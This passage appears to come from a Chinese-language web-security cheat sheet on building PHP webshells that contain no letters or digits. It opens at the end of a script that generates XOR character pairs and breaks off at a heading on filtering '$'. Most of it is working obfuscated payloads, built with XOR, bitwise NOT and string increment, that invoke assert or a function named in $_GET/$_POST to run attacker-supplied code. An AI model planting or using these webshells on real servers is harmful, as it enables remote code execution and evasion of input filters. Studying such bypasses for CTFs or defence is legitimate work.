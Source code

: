 ```php
			$b = '%'.$hex_j;
			$c = (urldecode($a)^urldecode($b));
			if (ord($c) >= 32&ord($c) <= 126) {
				$contents = $contents.$c." ".$a." ".$b."\n";
			}
		}
	}
}
fwrite($myfile, $contents);
fclose($myfile);
```

简易payload如下：

```php
$_="`{{{"^"?<>/"; // $_ = '_GET';
${$_}[_](${$_}[__]); // $_GET[_]($_GET[__]);

$_="`{{{"^"?<>/";${$_}[_](${$_}[__]); // $_ = '_GET'; $_GET[_]($_GET[__]);
```

- 按位取反Not`~`

[PHP位运算符](https://www.php.net/manual/zh/language.operators.bitwise.php)中的`按位取反`，如`~ $a`，将$a中为0的位设为1，反之亦然。如果操作对象是字符串，则将对组成字符串的字符 ASCII 值进行取反操作，结果将会是字符串。

通过调用代码执行函数，如`assert`，获得`webshell`，代码如下：

```php
<?php
/*
 * echo urlencode(~'assert'); // %9E%8C%8C%9A%8D%8B
 * echo urlencode(~'_POST');  // %A0%AF%B0%AC%AB
 */

// assert($_POST[_]);
// 支持PHP5和PHP7
$_=~'%9E%8C%8C%9A%8D%8B';$__=~'%A0%AF%B0%AC%AB';$__=$$__;$_($__[_]);

// $_=~'%A0%AF%B0%AC%AB';$_=$$_;(~'%9E%8C%8C%9A%8D%8B')($_[_]);
```



- 自增

PHP支持[PERL字符串递增功能](https://www.php.net/manual/zh/language.operators.increment.php)，该字符串必须是字母数字 ASCII 字符串。当到达字母 Z 且递增到下个字母时，将进位到左侧值。例如，$a = 'Z'; $a++;将 $a 变为 'AA'。

!> 自 PHP 8.3.0 起，此功能已软弃用。应该使用 str_increment() 函数。

```php
// ASSERT($_POST[_]);
// 由于payload中存在加号+，使用时需要进行URL编码
$_=[].'';$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
```
- 过滤`$`
